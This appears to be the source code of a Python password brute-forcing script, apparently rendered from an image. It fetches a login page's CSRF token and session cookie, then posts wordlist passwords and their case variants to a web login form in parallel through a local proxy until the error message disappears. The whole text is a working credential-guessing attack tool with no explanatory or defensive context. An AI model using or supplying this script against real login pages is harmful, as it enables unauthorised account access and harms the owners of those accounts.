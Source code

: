 ```python

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True


def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])
```
